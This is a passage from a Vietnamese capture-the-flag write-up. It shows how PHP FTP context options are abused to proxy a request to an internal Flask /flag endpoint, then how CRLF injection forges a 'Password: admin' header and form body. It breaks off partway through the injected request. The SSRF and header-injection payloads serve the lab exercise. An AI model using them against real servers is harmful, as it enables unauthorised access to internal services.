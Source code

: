 Và mình có search FTP context options trong php sẽ bao gồm phần proxy là 

https://www.php.net/manual/en/context.ftp.php

![image](./images/image71.png)

OK thì mình có thể sẽ sử dụng ftp request để proxy qua port 5000 và endpoint /flag được truyền thông qua param name thông qua host là port 3000

Vì thế payload của mình sẽ là 

`name=flag&hello=&protocol=ftp&options={"ftp":{"proxy":"127.0.0.1:5000"}}`

Nhưng mà trong file app.py lại yêu cầu request form và header password phải là admin 

```py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    username = request.form.get("username")
    password = request.headers.get("password")
```

nên mình sẽ thực hiện CRLF injection

Ta sẽ thêm thắt các Header và body data thành request như sau

flag HTTP/1.1
Host: 127.0.0.1/5000
Password: admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
